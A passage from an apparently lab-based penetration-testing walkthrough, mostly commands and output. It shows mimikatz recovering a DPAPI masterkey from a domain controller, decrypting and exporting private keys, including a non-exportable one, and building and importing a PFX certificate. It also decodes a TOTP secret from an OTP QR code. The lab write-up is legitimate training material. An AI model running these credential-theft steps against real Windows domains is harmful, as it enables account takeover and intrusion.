980c5715827c3e043b3a6891375340c5dabb775124064e0341c24b0eb8972e4e2b5591752aa929f50a5af171314666f39686aa4ae4a9a13b57c8a5eb9bad0aef250455c928fa6cd5a72128d44778a0e95942c2913f133cd57b478185ba0b90fde3aaa656cf4
037b24298a14b9fc643fba034501057e5c65fea10868e40936e07e7771227b964c6b3096598a5c005d7f1db8b7a9e8ef6903f0fe5f1574b1a92c3f6058ab0e69b8f1e4ad911753b104fde162fb6370d4535042a8c0d8bcc547adb3cae547507faaa34527aa7
b8dd8656055d5bc4a303b0bc777d6e3a49338347b3b5b0b3c94f6624a4d3af22c19cd74fd859867c5de697f70c07cf6aade331281ba5e1a333b5ba353a2d94cbb306e1778e4da02781d82001b3a7b307d01ff0e6203c78223a0419d9106dd6fc9e2bfdc4ac5
3222e69d90e318843a69556efe4137a11dd3b1eae1d71da5854f4a7ef973176215514ae430479af6d489903ec1
    dwSignLen          : 00000014 - 20
    pbSign             : 8d6d9442aa017e216665325a83911d2c1114a00f

  pExExportFlag      :
  **BLOB**
    dwVersion          : 00000001 - 1
    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    dwMasterKeyVersion : 00000001 - 1
    guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}
    dwFlags            : 00000000 - 0 ()
    dwDescriptionLen   : 00000018 - 24
    szDescription      : Export Flag
    algCrypt           : 00006603 - 26115 (CALG_3DES)
    dwAlgCryptLen      : 000000c0 - 192
    dwSaltLen          : 00000010 - 16
    pbSalt             : e0dffd421e75c9f97d4c935bdd2e49b3
    dwHmacKeyLen       : 00000000 - 0
    pbHmackKey         :
    algHash            : 00008004 - 32772 (CALG_SHA1)
    dwAlgHashLen       : 000000a0 - 160
    dwHmac2KeyLen      : 00000010 - 16
    pbHmack2Key        : 380eaa677f07017dcba9fd7d64b8016a
    dwDataLen          : 00000008 - 8
    pbData             : a3bab1367c1b34b9
    dwSignLen          : 00000014 - 20
    pbSign             : 58d72a1e56249ad77fcb58b02f0e159fa6492f2d


mimikatz #
```

From here we know that the masterkey is the:

```
guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}
```

And we can see them via hidden files:

```
PS C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2011815209-557191040-1566801441-500> ls -ah


    Directory: C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2011815209-557191040-1566801441-500


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        1/27/2022  12:38 AM            740 058b509a-b1a7-4f9e-ab37-d7c47dcfdad3
-a-hs-       12/31/2019   1:23 AM            468 6f2a4414-dcb9-4a57-8d60-c35bdf66e4f7
-a-hs-        6/17/2020   8:32 AM            740 716d23c4-a63b-4448-a876-9604d98c06cc
-a-hs-       10/23/2021   6:51 AM            740 a9b0afa2-28af-4fdf-b5b0-d4334ece9c99
-a-hs-        3/18/2020  10:23 PM            904 BK-CYBER
-a-hs-        3/18/2020  10:23 PM            740 c5f5331e-5856-40b9-82cc-8c090fe15641
-a-hs-        6/27/2024   4:02 AM            740 cdaf0a55-c234-41d4-a6f5-0b044b94f76f
-a-hs-        1/13/2024   2:01 AM            740 f045138c-67a2-479f-8a33-717dfa0bfa0b
-a-hs-        2/13/2023  12:57 PM            740 f1237474-8406-44b2-97e7-18194e43cfc7
-a-hs-        1/15/2021   7:40 AM            740 f216eabc-73af-45dc-936b-babe7ca8ed05
-a-hs-        6/27/2024   4:02 AM             24 Preferred


PS C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2011815209-557191040-1566801441-500>
```

Now knowing the Administrator's password, the masterkey gui used to encrypt the DPAPI secrets and the SSID we can try to export it.

But remember to elevate your permissions to NTSystem otherwise will fail!

EDIT: still fails so I will use the NTLM hash instead?



Still fails to decrypt, damn it! So I got an insider tips to use /rpc option, apparently it asks from the DC(which is the one we are!)



And this actually did the trick unveiling the masterkey hash!

```
mimikatz #

mimikatz # dpapi::masterkey /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-2011815209-557191040-1566801441-500\f216eabc-73af-45dc-936b-babe7ca8ed05" /rpc
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {f216eabc-73af-45dc-936b-babe7ca8ed05}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000088 - 136
  dwBackupKeyLen     : 00000068 - 104
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000174 - 372
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : fd0437a8c9ae4102993e32c9c88b8ec3
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 82969cfffe599bfc2f511ccbdc5b6fa3eaac45614f3088bc2dfb5dabb564228d1246e24b224b452cad5fc0d65606d027853a671751b02cfd174dbf96e8bb9836ec0ed8a02be30c6f5d787946f2fe9d556a0bb7feffaa3843f3b6fcffc851d11cf19633e56c21a571

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : d1287d720e280478a390ff95cca5754b
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : e5c2cf30518de7984a3671a2488453147ecddaf7f9539abcc6e328178b5e0981138af1c089575f1a586c6be4737fa5501cfae686d76304c818e4ecc538bc3950bf019ebc9a1531dc

[domainkey]
  **DOMAINKEY**
    dwVersion        : 00000002 - 2
    dwSecretLen      : 00000100 - 256
    dwAccesscheckLen : 00000058 - 88
    guidMasterKey    : {f212a072-60d0-4d91-8ed6-c2b44e458031}
    pbSecret         : 83f615e8af921450098e74df8748f6716fe42f3c9bb084edc3c86d0a201493afe8e8075c3698935155428d3a017023540aedb174dd50f6feaef92cbad8c60ae76b7592cbf1fe902f254aee9764ef76ea197fb3f1de0560b3e5c0125b6b683749bfdfaff9eb2505bc28845e28151872aa8b79b6dce8bad4e10a3fa656c068160245158a4a79208c29adfe565c6465da284f0fea09bcedf2a8187c3cd54186f3215ffefd92470f3f4fc3e80ae5e330bb62a664ca8540e9abc39e5bee1f1fa4226e90565611ac2c630b74be3126d441ce502fa3a355e85687246b4316b1d5a26ceabc24f9df42e02bd0a2da2624bdd5dfe28e3511b5f09ae94a190d4cfd52ba6555
    pbAccesscheck    : b11404b924a0571b3deffca0be11878dad7cfbeef437829140ec1b4221e2817b27828df3e34e5c550abad3c06e52a2220fc9ac898a64460a075e8ecf70a2896a4da7d44259b0b8346dc35764534fbd41a2306cb3eb0bbdf1


Auto SID from path seems to be: S-1-5-21-2011815209-557191040-1566801441-500

[backupkey] without DPAPI_SYSTEM:
  key : ce6264f5ced2f476df839bbb203b28abe512aaa75ba6e96c4fbb65d240e33f87
  sha1: 314892cfb3a98da5092f7a117d57bf789282fcdb

[domainkey] with RPC
[DC] 'cyber.local' will be the domain
[DC] 'cydc.cyber.local' will be the DC server
  key : 40fcaaf0f3d80955bd6b4a57ba5a3c6cd21e5728bcdfa5a4606e1bf0a452d74ddb4e222b71c1c3be08cb4f337f32e6250576a2d105d30ff7164978280180567e
  sha1: 81a2357b28e004f3df2f7c29588fbd8d650f5e70

mimikatz #
```

What we need is the key or the SHA1:

```
key : 40fcaaf0f3d80955bd6b4a57ba5a3c6cd21e5728bcdfa5a4606e1bf0a452d74ddb4e222b71c1c3be08cb4f337f32e6250576a2d105d30ff7164978280180567e

sha1: 81a2357b28e004f3df2f7c29588fbd8d650f5e70
```

With these info we can decrypt the actual private key from few steps back...

```
mimikatz #

mimikatz # dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-2011815209-557191040-1566801441-500\ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad" /masterkey:"81a2357b28e004f3df2f7c29588fbd8d650f5e70"
**KEY (capi)**
  dwVersion          : 00000002 - 2
  dwUniqueNameLen    : 0000002f - 47
  dwSiPublicKeyLen   : 00000000 - 0
  dwSiPrivateKeyLen  : 00000000 - 0
  dwExPublicKeyLen   : 0000011c - 284
  dwExPrivateKeyLen  : 000005fc - 1532
  dwHashLen          : 00000014 - 20
  dwSiExportFlagLen  : 00000000 - 0
  dwExExportFlagLen  : 000000a8 - 168
  pUniqueName        : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab
  pHash              : 0000000000000000000000000000000000000000
  pSiPublicKey       :
  pSiPrivateKey      :
  pSiExportFlag      :
  pExPublicKey       : 525341310801000000080000ff000000010001000f9cf53dec7dd59fd22391e7a347a36be47fec1a91531d723f56859c31710abad952a41e32e3abdcb41bbb68de02126a7b0de86a4218ee4c7e057d786c0d62537cd8ca2fab7df34bc1100bc25dca5b893d0cf7fa0246eee449ecd32c12e08feebbb76a492089547f278824e25b14f0f8dbb9cbbd85195380c32a78c14601c06e53a36c8670407bd2da189e532c512f4e6800dd9fc7bafd53ce66dcd6561201eb42a2a7ab692c756a9a7d1aae32adf8c0aa3e7103bde994bc3c0bef9f963493193a2efd05cc86fed8caab435118572c2676a6936cb8f2454c533d1373f9fa2c98404684573d38187410f1188c97e3f3c6d4cf02a37221b826deee913fd2cf14bc0000000000000000
  pExPrivateKey      :
  **BLOB**
    dwVersion          : 00000001 - 1
    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    dwMasterKeyVersion : 00000001 - 1
    guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}
    dwFlags            : 00000000 - 0 ()
    dwDescriptionLen   : 0000002c - 44
    szDescription      : CryptoAPI Private Key
    algCrypt           : 00006603 - 26115 (CALG_3DES)
    dwAlgCryptLen      : 000000c0 - 192
    dwSaltLen          : 00000010 - 16
    pbSalt             : be3a6a63265998d043869447bbc35543
    dwHmacKeyLen       : 00000000 - 0
    pbHmackKey         :
    algHash            : 00008004 - 32772 (CALG_SHA1)
    dwAlgHashLen       : 000000a0 - 160
    dwHmac2KeyLen      : 00000010 - 16
    pbHmack2Key        : 015c7cb8397bbded162691640fd48265
    dwDataLen          : 00000548 - 1352
    pbData             : 5cd1399f53ebcc77ae643330497e48d4efbd2d354830c3cd67a97e52b17b835afc5ef56d845233941b544b5e1c3af5edec65e474947ced1cf796256b45bc18b2a8178fc7c3c5842de952688671cc280b94c18c860a446096865b30f44d68d0259f0ef4a31e17539261f3e5fab297c3a73ed8df90f81bfdded8d6c4a6fea7a24c7170848269869599ee64e839cbda6f3b69a7edce02d05662836b6761e5b205923da031629758e4524b7736a64cd0ab394d206d328299bb72fd8e86e57072a1938da4dd08a163d91db3719a49dfd9956b9c9e84ddfcba734690e39e863076ece4c3fc3daf11207967e92473f7888b446984ede343119eee7e527bdbe92bb7b46c46b25acbc1bb27faa328037d65d31d151691f2e48ea0a9176a4e7fccd0e1180c43983bf8a05c685293d34ca7b7a185908e4bb7c688cb5eaf82e14314ccc0474a7f23c1d3e4e4ca89250c8118f772c85b8f72559bda1ba6c36e3b263fbc0181d5ecf5f7246d11f56cff1504713ae725d96acf6ceed16d9b179582bed97b5e7e8c33682da4d727f6c62d7992e107a906614184fb0549729b48eee777b59d0c7c7d444d2a68892afe12e4ecb06a178338634a2f9eb7da603ae67a2ffea45829187755641f5e7affae08d3b6fd784ef361bf79b3cdf4df8806ed752e9be118052d50c83fce7eb6928d250ab0c70a9282a03f9cbc0693715e3a54fcfaef1ede9e25ce607729965e96d6fa7dc78756c01be1e8623c98f012af6e9396c1da5d1547e6d4fad99d1301000b1931c6fcb48b53e23952ae84b95d62444d1088e7ef3471e3f8195833e1db4386f394b4a20e42ba578aec4dd93a32d5007ff9405e4097cb5a3db40d4c1e157e03ce43d73d234c766a1b3229e6aed1565d76390607b9e00889e2b98ad940dd270f341eb4342c84776aaa73f98eed12662fd667ca1a89b3ef1b8084c024d0e785c7e323c25e5b430e0a4dbeb94a7979245f9336e969dc5cf17ce4264c262f3789ddaead1cd69ed8d831e14659826936f1d2a613ad4b17fb717d11986b38f49fefe0dac21118ba2a0ba79c2a25fa746228475704fed297505a15dd02e884f5368b47384d13eea3b3a2d529172ed588c1995d0f82b8269ef31b25c852f800bddaed7bb8a4c2766c751d8294b5b60348c9434ee9f4045c8b9f64ea955e72e232e29a9ab32e236539d2afb17e85bb6a88c81e89a9f8c479c5c46e070fab9c430c6731df5de89e4c8f9f4512cc78cff37b0a6237c67aa4cde21466c852f4fc0b0009821cd919e41a929b17301bb6510facac2a4982b9c3555b0c43e4d27f4b745f31a4366453a93a5892d675f969392048bf15182a6b4a6025e8fe3c18ba2b2158283f89a515d0be00fa7919d7fd6257ee6275e0a65bc0533a10065691caf9bc9cbe7dbcb2070e3980c5715827c3e043b3a6891375340c5dabb775124064e0341c24b0eb8972e4e2b5591752aa929f50a5af171314666f39686aa4ae4a9a13b57c8a5eb9bad0aef250455c928fa6cd5a72128d44778a0e95942c2913f133cd57b478185ba0b90fde3aaa656cf4037b24298a14b9fc643fba034501057e5c65fea10868e40936e07e7771227b964c6b3096598a5c005d7f1db8b7a9e8ef6903f0fe5f1574b1a92c3f6058ab0e69b8f1e4ad911753b104fde162fb6370d4535042a8c0d8bcc547adb3cae547507faaa34527aa7b8dd8656055d5bc4a303b0bc777d6e3a49338347b3b5b0b3c94f6624a4d3af22c19cd74fd859867c5de697f70c07cf6aade331281ba5e1a333b5ba353a2d94cbb306e1778e4da02781d82001b3a7b307d01ff0e6203c78223a0419d9106dd6fc9e2bfdc4ac53222e69d90e318843a69556efe4137a11dd3b1eae1d71da5854f4a7ef973176215514ae430479af6d489903ec1
    dwSignLen          : 00000014 - 20
    pbSign             : 8d6d9442aa017e216665325a83911d2c1114a00f

  pExExportFlag      :
  **BLOB**
    dwVersion          : 00000001 - 1
    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    dwMasterKeyVersion : 00000001 - 1
    guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}
    dwFlags            : 00000000 - 0 ()
    dwDescriptionLen   : 00000018 - 24
    szDescription      : Export Flag
    algCrypt           : 00006603 - 26115 (CALG_3DES)
    dwAlgCryptLen      : 000000c0 - 192
    dwSaltLen          : 00000010 - 16
    pbSalt             : e0dffd421e75c9f97d4c935bdd2e49b3
    dwHmacKeyLen       : 00000000 - 0
    pbHmackKey         :
    algHash            : 00008004 - 32772 (CALG_SHA1)
    dwAlgHashLen       : 000000a0 - 160
    dwHmac2KeyLen      : 00000010 - 16
    pbHmack2Key        : 380eaa677f07017dcba9fd7d64b8016a
    dwDataLen          : 00000008 - 8
    pbData             : a3bab1367c1b34b9
    dwSignLen          : 00000014 - 20
    pbSign             : 58d72a1e56249ad77fcb58b02f0e159fa6492f2d

Decrypting AT_EXCHANGE Export flags:
 * volatile cache: GUID:{f216eabc-73af-45dc-936b-babe7ca8ed05};KeyHash:81a2357b28e004f3df2f7c29588fbd8d650f5e70;Key:available
 * masterkey     : 81a2357b28e004f3df2f7c29588fbd8d650f5e70
00000000
Decrypting AT_EXCHANGE Private Key:
 * volatile cache: GUID:{f216eabc-73af-45dc-936b-babe7ca8ed05};KeyHash:81a2357b28e004f3df2f7c29588fbd8d650f5e70;Key:available
 * masterkey     : 81a2357b28e004f3df2f7c29588fbd8d650f5e70
525341320801000000080000ff000000010001000f9cf53dec7dd59fd22391e7a347a36be47fec1a91531d723f56859c31710abad952a41e32e3abdcb41bbb68de02126a7b0de86a4218ee4c7e057d786c0d62537cd8ca2fab7df34bc1100bc25dca5b893d0cf7fa0246eee449ecd32c12e08feebbb76a492089547f278824e25b14f0f8dbb9cbbd85195380c32a78c14601c06e53a36c8670407bd2da189e532c512f4e6800dd9fc7bafd53ce66dcd6561201eb42a2a7ab692c756a9a7d1aae32adf8c0aa3e7103bde994bc3c0bef9f963493193a2efd05cc86fed8caab435118572c2676a6936cb8f2454c533d1373f9fa2c98404684573d38187410f1188c97e3f3c6d4cf02a37221b826deee913fd2cf14bc00000000000000005d15486ad8d70de272ae394bf93a4e1752febed957d90f09157a7f56169e28484ad9ef71540047f79135b827dd2c832a45da47a3c8d2c6d8b21fed3d217f85378e6cfcd12bb73a734f5e0997a903ce54a036a120ee5a5436aa33a5cdf5b55182c9c03890027b93b3664ce58a937e4ff9dff9a9247db9bd091eb059a67a8c94cc000000005bd4e96fcc1d408537b6078707d15d97439d12fb114a10a4b0773f43a9e22d1eb6d5f55570d9aaec80daaabf45788273e0847ae6785b70e8b7fef7c3b1ec5209929392e11faaaa3dff3416a1a87af61c5bebeddacff6ff7b42561910389bc10d0bb669aff343c3a457044d465982af6eb9585d9929132ed2c549e69d7ba85aeb00000000e9d86894663b18cb84ce8da76ec912b02a7ca69b3ac123fb2ee066435ebbde08de71b5e5e5d53717d5caf20f271bd737707e7ce5aa94ea74c1684947780c2e810ed9abd433cb33efc25ee8de022a214ca471429ddd9e492e667a78e5c7106125acfbc5e9937678f6d4f160556956a7123b39f7346f51d6e10d561b5e4e0a17a400000000416919a043e20787a2a2289395e01f13d47c41b2c75570dfb0ad6274a926d0973ff2a95c12a5a047a89216badd4d9cbd68839d8f661193d066ed8a39190070ba37fe71803b2269e824afe867172cfd09a54b354b2e7d6b0238a1a7780b57d3b22588e3ef1b0738f5d059ffbe2e625bfe9310e71de310b22f1089e41858463a0a0000000002ba893b2bcfd489a1efad85565b7e1a68b2e028744856c57c31aedcdcc0bcae26b3682f82386c8fa7c0b8af461f762e2c2b6121eeb2b15f4e8cb667fe0fea7e96a95960001d8828aa40e7694a2f5134bdefb3e67dbf67906395601972f5516ef5d0902de012e551701a10816d23dcbbf2f906eb82ab5823a70213a4f75e8e7d000000004da0ded9af9b4b83e9204ec8341d053a25fec4501b4e2ef4d770e92362c0b839f19b5bbc0eb2e60381d84c4506403cd8bfb443e895ebed4dfbb823806b774769e985addb457c8ee4831c7bd63adda33de756eceaf7e6c6da1ec300a9466befe98522f1fb0be2d003aab0f662c1947d0c7e57e5dfd3505784ca6ae001a357c6d2599c9a6d0f9d7028c6c57aef184b146e7d117f34ae1207234632b5085194857480c00666d8fb27a97bb6b51a86b67892602b94645eb9b0a6c73d34a577e2a8dcd5a89ee5df9989dd845c45656cec4055d8686ed7498c963b803ee29041efb23faf10e261d2ef0d68425382d0694b1935957d205451307030d503171ee224742000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
        |Provider name : Microsoft Strong Cryptographic Provider
        |Unique name   :
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003f ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_EXPORT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : YES
        Private export : OK - 'dpapi_exchange_capi_0_te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab.keyx.rsa.pvk'

mimikatz #
```

As you see the privatekey now should be decrypted and saved on the disk.

With both the public and privatekey now we can form our ticket complete.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# openssl x509 -inform DER -outform PEM -in 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8.der -out public.pem 
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# openssl rsa -inform PVK -outform PEM -in dpapi_exchange_capi_0_te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab.keyx.rsa.pvk -out private.pem 
writing RSA key
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# openssl pkcs12 -in public.pem -inkey private.pem -password pass:Coglione1! -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# ll
total 1608
-rw-r--r-- 1 root root 1609950 Jun 26 16:02 20240626160208_bloodhound.zip
-rw-r--r-- 1 root root    1177 Jun 27 10:49 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8.der
-rw-r--r-- 1 root root    1722 Jun 27 09:02 Administrator@cifs_INWKT001.INCEPTION.LOCAL@INCEPTION.LOCAL.ccache
-rw-r--r-- 1 root root    2429 Jun 26 17:07 Inception_VPN_Robert_Lanza.ovpn
drwxr-xr-x 7 root root    4096 Jun 26 15:37 SHARE
-rw------- 1 root root    3073 Jun 27 10:50 cert.pfx
-rw-r--r-- 1 root root    1196 Jun 27 10:49 dpapi_exchange_capi_0_te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab.keyx.rsa.pvk
-rw------- 1 root root    1704 Jun 27 10:49 private.pem
-rw-r--r-- 1 root root    1651 Jun 27 10:49 public.pem
```

That cert.pfx should now contain the whole chain with public and private, ready to be imported in the session baby!

```
PS > certutil -user -p "Coglione1!" -importpfx cert.pfx NoChain,NoRoot
Certificate "Administrator@cyber.local" added to store.

CertUtil: -importPFX command completed successfully.
PS >
```

Nice! And now moment of thruth!



Seems working now, let's download it locally!  
And seems like a QRCODE?  


Can I decrypt it?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# zbarimg otp.png 
QR-Code:otpauth://totp/Robert.Lanza@OPNsense?secret=QZRPBGCUGGDFJZDKRBZGXZYG7LMTMX3N
scanned 1 barcode symbols from 1 images in 0 seconds
```

I guess we can move forward to the CYBERNETICS-FW.

&nbsp;

# I was wrong

Now we need to export the Robert.Lanza certficate so the VPN will work:

```
PS > Get-ChildItem Cert:\CurrentUser\My | ft


 
Thumbprint                                Subject
----------                                -------
9D950AAF7F833A51E0D4BD6009441E6E92D112A5  CN=" Robert.Lanza", E=" Robert.Lanza @cyber.local", O=HTB, L=HTB, S=HTB, C=US
43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8
388F747D6F5C6159F34F79B6D7550A045A9AED02  CN=inception2, E=opnsense@cybernetics.local, O=HTB, L=HTB, S=HTB, C=US


PS > Get-ChildItem Cert:\LocalMachine\My | ft
PS >
```

Now the first one is the one I need but we need the privatekey as well!

```
PS > Get-ChildItem Cert:\LocalMachine\My | ft
PS > $mypwd = ConvertTo-SecureString -String 'Coglione1!' -Force -AsPlainText
PS > Get-ChildItem -Path Cert:\LocalMachine\My\9D950AAF7F833A51E0D4BD6009441E6E92D112A5 | Export-PfxCertificate -FilePath C:\Temp\Robert.Lanza.pfx -Password $mypwd
ERROR: Get-ChildItem : Cannot find path '\LocalMachine\My\9D950AAF7F833A51E0D4BD6009441E6E92D112A5' because it does not exist.
ERROR: At line:1 char:1
ERROR: + Get-ChildItem -Path Cert:\LocalMachine\My\9D950AAF7F833A51E0D4BD60094 ...
EERROR:     + CategoryInfo          : ObjectNotFound: (\LocalMachine\M...9441E6E92D112A5:String) [Get-ChildItem], ItemNotFound
ERROR:    Exception
ERROR:     + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
ERROR: 
ERROR: Export-PfxCertificate : Object reference not set to an instance of an object.
ERROR: At line:1 char:86
ERROR: + ... E92D112A5 | Export-PfxCertificate -FilePath C:\Temp\Robert.Lanza.pfx  ...
ERROR: +                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ERROR:     + CategoryInfo          : NotSpecified: (:) [Export-PfxCertificate], NullReferenceException
ERROR:     + FullyQualifiedErrorId : System.NullReferenceException,Microsoft.CertificateServices.Commands.ExportPfxCertificat
ERROR:    e
ERROR: 
PS > Get-ChildItem -Path Cert:\CurrentUser\My\9D950AAF7F833A51E0D4BD6009441E6E92D112A5 | Export-PfxCertificate -FilePath C:\Temp\Robert.Lanza.pfx -Password $mypwd
ERROR: Export-PfxCertificate : Cannot export non-exportable private key.
ERROR: At line:1 char:85
ERROR: + ... E92D112A5 | Export-PfxCertificate -FilePath C:\Temp\Robert.Lanza.pfx  ...
ERROR: +                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
EERROR:     + FullyQualifiedErrorId : System.ComponentModel.Win32Exception,Microsoft.CertificateServices.Commands.ExportPfxCer
ERROR:    tificate
ERROR: 
PS >
```

Offcouse the privatekey isn't exportable! So we need to perform the same task again? So googlin seems like tit's possible to export the certificates via mimikatz.exe?

https://tools.thehacker.recipes/mimikatz/modules/crypto/certificates

Now I spinup another meterpreter and migrated to svchost.exe to get a session as robert.lanza. From there I sent this:

```
PS > whoami
inception\robert.lanza
PS > ./mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /systemstore:CURRENT_USER /store:my /export" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::cng
ERROR kull_m_patch_genericProcessOrServiceFromBuild ; OpenProcess (0x00000005)

mimikatz(commandline) # crypto::certificates /systemstore:CURRENT_USER /store:my /export
 * System Store  : 'CURRENT_USER' (0x00010000)
 * Store         : 'my'

 0.  Robert.Lanza
    Subject  : C=US, S=HTB, L=HTB, O=HTB, E=" Robert.Lanza @cyber.local", CN=" Robert.Lanza"
    Issuer   : C=US, S=HTB, L=HTB, O=HTB, E=opnsense@cybernetics.local, CN=inception2
    Serial   : 04
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 1/27/2022 3:54:14 PM -> 1/3/2122 3:54:14 PM
    Hash SHA1: 9d950aaf7f833a51e0d4bd6009441e6e92d112a5
    Key Container  :  Robert.Lanza
    Provider       : Microsoft Enhanced Cryptographic Provider v1.0
    Provider type  : RSA_FULL (1)
    Type           : AT_KEYEXCHANGE (0x00000001)
    |Provider name : Microsoft Enhanced Cryptographic Provider v1.0
    |Key Container :  Robert.Lanza
    |Unique name   : b98a234ab05ba2fcd2de0627f1bafd64_6768f824-bc10-45f1-826b-27a36084b0a8
    |Implementation: CRYPT_IMPL_SOFTWARE ;
    Algorithm      : CALG_RSA_KEYX
    Key size       : 2048 (0x00000800)
    Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
    Exportable key : NO
    Public export  : OK - 'CURRENT_USER_my_0_ Robert.Lanza.der'
    Private export : OK - 'CURRENT_USER_my_0_ Robert.Lanza.pfx'

 1.
    Subject  :
    Issuer   : DC=local, DC=cyber, CN=Cyber-CA
    Serial   : f90900000000a66657a1709716bbf909000026
